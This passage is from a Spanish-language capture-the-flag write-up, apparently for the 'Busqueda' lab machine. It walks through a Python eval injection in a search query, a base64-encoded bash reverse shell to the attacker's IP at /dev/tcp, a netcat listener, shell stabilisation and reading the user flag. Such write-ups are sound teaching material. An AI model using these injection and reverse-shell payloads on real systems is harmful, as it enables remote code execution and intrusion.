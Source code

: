 Como podemos concatenar valores a gusto, conociendo de Python podemos utilizar la función `__import__` para importar la librería `os` y utilizar popen para leer la salida de un comando que al final, se concatenará a la URL

```bash
engine=Google&query='%20%2b__import__('os').popen('id').read()%2b%20'
```

```bash
https://www.google.com/search?q=uid=1000(svc) gid=1000(svc) groups=1000(svc)
```

Estamos limitados de carácteres para utilizar acá al ser un eval y estarse utilizando las comillas simples para los strings, por lo que vamos a convertir nuestro oneliner a base64 para pasárselo a la utilidad `base64` de Linux y que esta lo pase a una bash.

```bash
❯ echo "bash -i >& /dev/tcp/10.10.14.192/443 0>&1" | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xOTIvNDQzIDA+JjEK
```

La query quedaría así

```bash
'%20%2b__import__('os').system('echo%20YmFzaCAtaSA%2bJiAvZGV2L3RjcC8xMC4xMC4xNC4xOTIvNDQzIDA%2bJjEK%20|base64%20-d|bash')%2b%20'
```
Al mandar esto y ponernos en escucha en nuestro equipo, recibimos una shell

```bash
❯ nc -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.208 59064
bash: cannot set terminal process group (1689): Inappropriate ioctl for device
bash: no job control in this shell
svc@busqueda:/var/www/app$ script /dev/null -c bash # Inicia un nuevo proceso
script /dev/null -c bash
Script started, output log file is '/dev/null'.
svc@busqueda:/var/www/app$ ^Z # CTRL + Z
[1]  + 23231 suspended  nc -lvnp 443
❯ stty raw -echo; fg # Pasa ciertos controles de la terminal
[1]  + 23231 continued  nc -lvnp 443
                                    reset xterm # Reinicia y establece el tipo de terminal
svc@busqueda:/var/www/app$ export TERM=xterm-256color # Consola xterm256
svc@busqueda:/var/www/app$ bash # Para aplicar cambios
svc@busqueda:/var/www/app$ stty rows 36 columns 149 # Filas y columnas de la terminal
```

Una vez dentro, podemos ver en el directorio personal de este usuario la primera flag

```bash
svc@busqueda:/var/www/app$ cd 
svc@busqueda:~$ ls
snap  user.txt
svc@busqueda:~$ cat user.txt
e4ad25e5e5c139e8fb6954754******
```
